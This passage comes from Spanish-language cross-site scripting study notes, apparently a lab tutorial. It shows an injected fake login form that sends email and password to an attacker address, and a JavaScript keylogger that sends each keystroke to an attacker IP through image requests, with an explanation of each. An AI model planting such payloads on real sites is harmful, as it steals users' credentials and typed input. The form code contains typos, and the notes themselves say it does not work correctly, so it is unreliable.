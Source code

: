 - Alternativa (No funciona correctamente)
    
    ```bash
    <div id="formContainer"></div>
    
    <script>
    	var email;
    	var password;
    	var form = '<form>'+
    		'Email:<input type="email" id="email" required>'+
    		' Contraseña:<input type="password" id="password" required>'+
    		'<input type="buttom" onclick="submitForm()" value="Submit">'+
    		'</form>';
    	
    	document.getElementByld("formContainer").innerHTML = form;
    
    	function submitForm(){
    		email = document.getElementByld("email").value;
    		password = document.getElementByld("password").value;
    		fetch("http://localhost/?email=" + email + "&password=" + password);
    	}
    </script>
    ```
    

Primero se le pedirá al usuario que ingrese un correo, luego se verificará si el usuario ingresó contenido y en caso afirmativo, se hará una petición a la dirección del atacante por el puerto 80 concatenándole la variable “email”, la cual contiene el correo ingresado.

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%203.png)

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%204.png)

### JavaScript: KeyLogger

Se capturarán todas las pulsaciones de teclas que el usuario haga dentro de la web:

```bash
<script>
	var k = "";
	document.onkeypress = function(e){
	e = e || window.event;
	k += e.key
	var i = new Image();
	i.src = "http://192.168.0.110/" + k;
	};
</script>
```

- Explicación alternativa
    
    La variable “k” almacenará todos los caracteres que el usuario presione. “document.onkeypress” es un evento de javascript, este evento es ejecutado cuando presionamos cualquier tecla que produce un caractér, este almacenará una función a la cual se le pasará el argumento el cual será para referirse al key que haya presionado en usuario mediante el atributo “e.key”. Dentro de la función se especifica que “k” irá agregando “e.key” el cual sirve para capturar la tecla presionada por el usuario. Luego con la función “Image()”, hará que el usuario cargue una imagen y que cargue la imagen de la dirección especificada en “i.src” la cual corresponde a la dirección del atacante concatenándole la key puesta por el usuario.
    